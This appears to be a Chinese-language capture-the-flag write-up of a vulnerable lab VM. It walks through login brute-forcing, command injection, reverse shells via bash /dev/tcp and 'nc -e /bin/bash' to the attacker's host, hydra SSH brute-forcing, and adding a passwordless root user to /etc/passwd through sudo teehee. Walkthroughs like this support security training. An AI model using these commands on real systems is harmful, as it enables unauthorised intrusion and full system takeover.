

来自之前cnblog的博客
源地址：https://www.cnblogs.com/This-is-Y/p/13347213.html
下载，安装（vmware直接导入文件），桥接
kali开始nmap扫描
nmap -sP 192.168.123.0/24
找到目标ip：192.168.123.9
浏览器访问，就一个登陆页面

nmap扫描端口；只有22和80
可以确定是linux了（废话）

再dirsearch扫描目录

也没有有用的信息
先试试注入，手注和sqlmap都没找出什么来
burp抓包跑字典暴力破解再试试看

暴力破解出了结果
admin
happy
登陆后的页面，
只有一个command，点进去，有3个命令供执行
ls -l 显示目录内容列表
du -h 显示每个文件和目录的磁盘使用情况
df -h 显示磁盘相关信息
试试抓包，执行命令作为明文参数，修改成别的，发现也可以执行（这里我是换成了dir）

验证其可行性后，试试看别的命令，cat command.php
可以看到执行命令的是这个shell_exec()函数

用户是www-data，权限组在33
没有写文件的权限
直接反弹shell

看上去像是把命令里的&符当成分隔符了。编码一下就解决了
bash+-i+>%26%2Fdev%2Ftcp%2F192.168.123.42%2F1234+0>%261
然鹅还是反弹不出来，看不到报错，也不知道是什么的原因
换nc反弹
nc 192.168.123.41 1234 -e /bin/bash
反弹成功

查看是否有可用于suid提权的文件
find / -user root -perm -4000 -print 2>/dev/null

没找到
sudo也用不了
uname -a和lsb_release -a查看系统版本

去sploitdb里面找是否有可以用的漏洞
有一些关于ssh的漏洞，但是在反弹回来的shell下，我没有权限wget下载文件
看了一些别人的博客，到/home目录下，有三个用户

但是只有jim下面有文件
backups里面有一个oldpasswd.bak，是一些密码，估计是要爆破
mbox打不开，没有权限
test.sh文件内容像是提示
先尝试爆破
把oldpasswords.bak中的数据保存下来（jim.txt)
再使用hydra进行爆破
hydra -l jim -P jim.txt 192.168.123.9 ssh
不到半分钟就出来了
密码：jibril04
通过ssh登陆jim
查看mbox文件内容

看内容是一封邮件
从jim这边查找文件，再var/mail下看到一封jim的邮件，打开
得到了用户charles的密码^xHhA&hvim0y
试着登陆一下
成功
跟着这个思路，回到www-data,查看www-data文件，

有很多封邮件，但是都没用
登陆到charles后，可以使用sudo
用sudo -l看一下，命令teehee不需要密码就可以执行，用
echo “admin::0:0:::/bin/bash” | sudo teehee -a /etc/passwd
在passwd下面添加一个没有密码的root用户，
然后就可以在/root下找到flag了